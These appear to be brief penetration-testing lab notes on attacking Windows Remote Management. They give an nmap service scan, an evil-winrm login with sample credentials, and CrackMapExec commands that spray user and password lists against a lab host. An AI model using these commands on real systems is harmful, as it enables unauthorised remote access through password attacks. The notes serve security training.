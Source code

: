 # Footprinting the Service
```
nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n
```
```
evil-winrm -i 10.129.201.248 -u Cry0l1t3 -p P455w0rD!
```
# WinRM Password Attacks
## CrackMapExec Usage
```
d0x777@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```
crackmapexec winrm <ip> -u user.list -p password.list
```